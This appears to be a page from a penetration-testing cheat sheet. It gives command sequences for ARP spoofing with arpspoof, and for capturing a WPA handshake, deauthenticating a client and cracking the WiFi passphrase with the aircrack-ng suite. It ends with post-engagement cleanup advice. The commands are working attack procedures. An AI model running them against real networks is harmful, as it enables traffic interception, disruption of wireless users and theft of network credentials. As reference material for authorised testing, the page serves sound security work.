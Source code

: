 ## ARP Spoofing

1. Ping sweep (if necessary) to check your targets
2. Configure kali to forward packets: `echo 1 > /proc/sys/net/ipv4/ip_forward`
3. Start Wireshark
4. `arpspoof -i <INTERFACE> -t <TARGET> -r <TARGET_TO_POSE_AS>`
5. Check Wireshark

<div style="page-break-after: always;"></div>

# Wireless
---

1. Connect WiFi adapter
	1. Check with `iwconfig`
2. Kill processes that may interfere
	1. `airmon-ng check kill`
3. Put adapter into monitor mode
	1. `airmon-ng start <INTERFACE>`
	2. Check with `iwconfig`
4. Get target network's BSSID & channel
	1. `airodump-ng <INTERFACE>`
5. Capture traffic
	1. `airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> <INTERFACE>`
	2. This will show connected devices, either choose one to deauth or wait for a handshake
6. Deauth
	1. `aireplay-ng --deauth 1 -a <AP_BSSID> -c <STATION_BSSID> <INTERFACE>`
7. Crack the passphrase
	1. `aircrack-ng -w <WORDLIST> -b <BSSID> <CAPTURE_FILENAME>`

<div style="page-break-after: always;"></div>

# Cleaning up
---

- Leave it as you found it
- Remove:-
	- Executables, scripts, added files
	- Malware, rootkits, and user accounts
- Restore to original configurations
